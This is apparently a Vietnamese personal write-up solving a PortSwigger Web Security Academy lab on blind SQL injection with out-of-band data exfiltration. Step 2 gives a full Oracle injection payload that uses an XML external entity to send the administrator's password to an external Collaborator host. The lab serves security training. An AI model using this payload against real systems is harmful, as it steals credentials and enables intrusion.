 # [Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

Lỗ hổng: Blind SQLi, sử dụng oob.

1. Kiểm tra OOB interaction:
- oracle: Như bài [15. lab-out-of-band](../../../../../../learn/portswigger/Web%20Security%20Academy/SQL%20injection/lab/practitioner/15.%20lab-out-of-band.md) => Có phản hồi.
![04ac20897d2a8cd249ac08dd041ec9fe.png](../../../../../../_resources/04ac20897d2a8cd249ac08dd041ec9fe.png)
2. Khai thác lỗ hổng Blind SQLi OOB:
- Sử dụng payload của oracle ở cheatsheet, thay Query và subdomain tạo bởi collaborator client: `TrackingId='+OR+'1'%3d'1'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.swsw1cn0g1ah9851s38d4q1v2m8mwb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;`
3. Xem phản hồi ở client:
![e9468d52c08d82a1be02ec40e2842c67.png](../../../../../../_resources/e9468d52c08d82a1be02ec40e2842c67.png)
=> Đã có password.
4. Đăng nhập tài khoản admin => Lab Solved.